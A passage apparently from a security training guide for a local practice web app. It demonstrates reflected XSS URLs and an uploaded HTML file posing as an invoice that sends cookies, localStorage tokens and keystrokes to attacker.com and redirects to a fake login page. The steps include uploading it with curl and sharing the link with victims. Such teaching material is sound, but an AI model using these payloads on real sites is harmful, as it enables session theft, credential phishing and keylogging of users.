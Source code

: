 **Result:** When other users view your profile or the username is displayed, the JavaScript executes.

#### Attack 2: Reflected XSS via URL Parameters

```javascript
// Visit this URL (if error messages reflect input)
http://localhost:3000/wcorp/login?error=<script>alert(document.cookie)</script>

// Or with event handlers
http://localhost:3000/wcorp/search?q=<img src=x onerror=alert('XSS')>

// URL encoded version
http://localhost:3000/wcorp/search?q=%3Cimg%20src%3Dx%20onerror%3Dalert%28%27XSS%27%29%3E
```

#### Attack 3: XSS via File Upload (HTML File)

```bash
# Create malicious HTML file
cat > steal-cookies.html << 'EOF'
<!DOCTYPE html>
<html>
<head>
    <title>Invoice Document</title>
</head>
<body>
    <h1>Loading document...</h1>
    <script>
        // Steal cookies
        fetch('https://attacker.com/steal?cookie=' + document.cookie);
        
        // Steal localStorage tokens
        fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'));
        
        // Keylogger
        document.addEventListener('keypress', function(e) {
            fetch('https://attacker.com/log?key=' + e.key);
        });
        
        // Redirect to phishing page
        setTimeout(() => {
            window.location = 'https://attacker.com/fake-login';
        }, 3000);
    </script>
</body>
</html>
EOF

# Upload the file
curl -X POST http://localhost:3000/wcorp/api/upload \
  -H "Authorization: Bearer <token>" \
  -F "file=@steal-cookies.html"

# Share the link with victims
# http://localhost:3000/uploads/steal-cookies.html
```
